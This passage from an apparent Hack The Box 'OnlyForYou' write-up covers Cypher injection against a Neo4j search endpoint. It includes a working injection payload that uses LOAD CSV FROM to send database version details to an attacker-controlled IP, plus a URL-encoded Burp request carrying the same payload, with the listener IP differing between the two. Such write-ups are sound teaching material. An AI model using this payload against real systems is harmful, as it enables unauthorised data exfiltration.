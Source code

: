 ![neo4j-search](/assets/img/htb-onlyforyou-neo4j-search.png)

After doing some research, we found cypher injection payloads on [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j).

Not all payloads seem to work but by enumeration we could find some useful ones. We use Burp to intercept the request and send multiple payload via intruder. We also set up a python server that will catch the exfiltrated data by using `LOAD CSV FROM IP_ADDRESS`. We add the values of our query as parameters which will then show up once the query does a request to the webserver with these values included.



#### Getting the version
##### Query
```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.41:80/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

##### Burp request
```
POST /search HTTP/1.1
Host: localhost:8001
User-Agent: XXX
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

search='+OR+1%3d1+WITH+1+as+a++CALL+dbms.components()+YIELD+name,+versions,+edition+UNWIND+versions+as+version+LOAD+CSV+FROM+'http%3a//10.10.14.64%3a80/%3fversion%3d'+%2b+version+%2b+'%26name%3d'+%2b+name+%2b+'%26edition%3d'+%2b+edition+as+l+RETURN+0+as+_0+//
```
